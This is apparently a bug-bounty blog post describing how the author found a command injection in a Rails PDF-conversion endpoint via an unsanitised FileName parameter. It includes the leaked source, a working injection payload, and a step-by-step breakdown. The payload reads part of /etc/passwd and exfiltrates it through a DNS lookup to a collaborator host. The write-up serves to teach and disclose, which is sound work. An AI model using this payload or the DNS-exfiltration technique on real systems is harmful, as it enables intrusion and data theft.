 ```yaml
---
title: "Basic recon to RCE III"
date: 2022-10-18T18:00:00+01:00
description: Basic recon to RCE II
---
```


![](banner.png)

For the 3rd and I think last episode of the series, we're going to continue with the same target as the episode 2, that I recommend you to go and see at first to put you a bit more in the context : [Basic recon to RCE II](/posts/2022/basic_recon_to_rce_ii/)

## The Story

So, after this first RCE discovered on the application, I wanted to continue to dig, especially because this debug mode displays a POST method on the endpoint `/convertdoctopdf`. So I immediately thought about a SSRF and as it's a bug that I like quite a lot, I wanted to dig it.

Another advantage of the debug mode (on Rails and maybe with other frameworks) is that if the application raises an exception, it will show you the part of the source code concerned in the response, which is pretty handy when you don't know which parameter you should use !

After a first POST request without body, the application displays an error 500 with the piece of code that concerns the error, which tells us that the `SessionId` parameter is missing. I spare you the details but this technique allowed me to obtain the complete code of the method :

```ruby
def convertdoctopdf
  header = {'Content-Type' =>'application/json','Authorization' => 'OAuth '+params['SessionId']}
  id = params['AttachmentId']
  baseURL = params['Url']
  fileName = params['FileName'] ? params['FileName']+(Time.now.to_i).to_s : 'fileconvert'+(Time.now.to_i).to_s
  uri = URI.parse(baseURL+"/services/data/v44.0/sobjects/Attachment/"+id+"/Body")

  https = Net::HTTP.new(uri.host,uri.port)
  https.use_ssl = true
  req = Net::HTTP::Get.new(uri.path, header)
  attachment = https.request(req)

  File.open("#{Rails.root}/public/#{fileName+'.docx'}", 'wb') { |f| f.write(attachment.body) }
  %x(/usr/bin/soffice --headless --convert-to pdf --outdir  "#{Rails.root}/public/file_conversion/" "#{Rails.root}/public/#{fileName+'.docx'}")

  outputfileBase64 = Base64.encode64(open("#{Rails.root}/public/file_conversion/#{fileName}.pdf").to_a.join);

  File.delete("#{Rails.root}/public/file_conversion/#{fileName+'.pdf'}") if File.exist?("#{Rails.root}/public/file_conversion/#{fileName+'.pdf'}")
  File.delete("#{Rails.root}/public/#{fileName+'.docx'}") if File.exist?("#{Rails.root}/public/#{fileName+'.docx'}")

  render json: {file: outputfileBase64}, status: :created, location: "Done"
end
```

Which can be described as follows:

  * `header` = Expects the SessionID parameter but is not important here, you can put anything
  * `id` = Waits for the AttachmentId parameter but is not important either, you can put anything too
  * `baseUrl` = Waits for the url parameter, just enter a valid URL
  * `fileName` = There is a ternary condition that makes it an optional parameter
  * Then a GET request is made, the content is saved to a file, converted to PDF and displayed to the user in base64

I had first stopped after leaking the HTTP request line thinking that was all I needed to trigger my SSRF. Except:

  * A GET request is made on the `URL + path /services/data/v44.0/sobjects/Attachment/"+id+"/Body"` but that can be easily bypassed by specifying a URL of type `https://domain.tld/?x=`, the path will then be forced as the parameter value.
    * The URL will become: `https://domain.tld/?x=/services/data/v44.0/sobjects/Attachment/"+id+"/Body"`
  * `https.use_ssl` = true which is the blocking point because it forces the use of HTTPS

Going back to our source code, I was saying that the body of the response is saved in a file (with the extension docx but in fact it doesn't matter, it's not a real docx but rather a simple text file) and then the soffice binary is called and converts this file into a PDF and displays the content of the PDF in base64 in the response. Something I didn't know yet because I was too focused on the SSRF and I could see in the return of my request in the answer and I didn't try to understand the cause.

I spent a few hours on the SSRF without being able to exploit it because :

  * The use of HTTPS prevents me from typing on internal URLs such as http://127.0.0.1
  * The target must have a valid certificate
  * For some reason I couldn't query a target using a let's encrypt certificate...

Anyway, after these blocking points, to try to inject some code in my PDF I used a Github repository on which I uploaded my PoC then I used the RAW URL (like `https://raw.githubusercontent.com/user/poc/master/poc.html`) to inject the content in the PDF. Unfortunately after many tries, the only tag that seemed to be interpreted was the `<title>` tag, the others were either deleted or not interpreted.

A little disappointed at the time, I gave up because I had other things to do.
That same day I spent the evening with my hunter friend Serizao, and I obviously told him my SSRF problem, we continued to dig together and to have a better overview, we recovered the complete code of the method above.

At this moment, a line directly appealed to us.

```ruby
%x(/usr/bin/soffice --headless --convert-to pdf --outdir  "#{Rails.root}/public/file_conversion/" "#{Rails.root}/public/#{fileName+'.docx'}")
```

The use of `%x()` is an alternative to the use of backticks which allows you to make a system call and display the output. Like backticks, `%x()` also allows string interpolation.

I explained above, that the FileName parameter is optional :
```ruby
fileName = params['FileName'] ? params['FileName']+(Time.now.to_i).to_s : 'fileconvert'+(Time.now.to_i).to_s
```

Because if it is not present, it is set with a default value automatically, but if it is present, it is equivalent to the user input (and this is where the vulnerability lies). The problem is that the string interpolation allows to inject an arbitrary command to execute an additional command to the soffice binary call.

Example to illustrate my point, inside `irb` :
```ruby
2.7.1 :001 > filename = '`id`'+Time.now.to_i.to_s
2.7.1 :002 > %x("#{filename}")
sh: uid=635388061(jomar) [...]1646581930: command not found
 => ""
2.7.1 :003 >
```

So we can see that the id command is executed.
With the following request, it is possible to escape the call to soffice and execute an arbitrary command, to show the vulnerability, I extracted the first characters of the `/etc/passwd` file :
```
POST /convertdoctopdf HTTP/1.1
Host: sub.target.tld
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 214
Content-Type: application/json;charset=UTF-8

{
  "SessionId":"1",
  "AttachmentId":"1",
  "FileName": "\" && getent hosts $(`echo aGVhZCAtYyA0IC9ldGMvcGFzc3dkCg== | base64 -d`).9blrzz2yqaikw8t47xdlfgsa91fr3g.private.collaborator.tld #\"",
  "Url":"https://www.google.com"
}
```

_Side note_ : a domain name can be 255 characters long but a subdomain is limited to 63 characters, think about it if you do a DNS extraction

Explanation of
```bash
"\" && getent hosts $(`echo aGVhZCAtYyA0IC9ldGMvcGFzc3dkCg== | base64 -d`).9blrzz2yqaikw8t47xdlfgsa91fr3g.private.collaborator.tld #\"
```

  * `\"` : Allows to close the parameter pass to soffice binary for the file name
  * `&&` : Indicates that a second command is being processed
  * `getent hosts` : Not having `curl`, `dig`, `ping` etc... available in the environment I used `getent hosts` to execute a DNS query
  * `$(echo aGVhZCAtYyA0IC9ldGMvcGFzc3dkCg== | base64 -d)` : To avoid encoding problems because of the `/` which raises an error with the File.open so, we put our command in base64
    * `echo aGVhZCAtYyA0IC9ldGMvcGFzc3dkCg== | base64 -d => head -c 4 /etc/passwd`. The first 4 characters of the `/etc/passwd` file which correspond to root
      * `9blrzz2yqaikw8t47xdlfgsa91fr3g.private.collaborator.tld` : My private burp collaborator server
      * `#\"` : Allows you to comment out the end of the line and the `"` to avoid a syntax error in the command

In the end, the executed command will be :
```bash
/usr/bin/soffice --headless --convert-to pdf --outdir "folder/public/file_conversion/" "folder/public/" && getent hosts $(`echo aGVhZCAtYyA0IC9ldGMvcGFzc3dkCg== | base64 -d`).9blrzz2yqaikw8t47xdlfgsa91fr3g.private.collaborator.tld #\".pdf").to_a.join);
```

![RCE_PoC](RCE_PoC.png)

## Conclusion

A bug that I found super interesting and was also present for a long time. I know because I had already identified this method more than 6 months ago but I had not taken the time to dig.

What made the difference today is something that is very well explained here: [Corben Leo - Hacking CAN be easy](https://twitter.com/hacker_/status/1509147518638116866). I've been developing small web / api applications on my own time for several months now and I use Ruby on Rails, in addition to giving me a good knowledge of the framework, it also gives me a better vision of a developer and sometimes I do sh*t because I want to go fast or because it annoys me and if I make these mistakes, why shouldn't others do it too ?

But also probably because rather than going from domain to domain looking for the ugly stuff that looks vulnerable, I thought I really wanted to exploit this thing and so I spent some time on it. Which shows once again that sometimes it's much more interesting to focus on an application and understand it than to try to find a magic domain and spread payloads around without understanding what you're doing
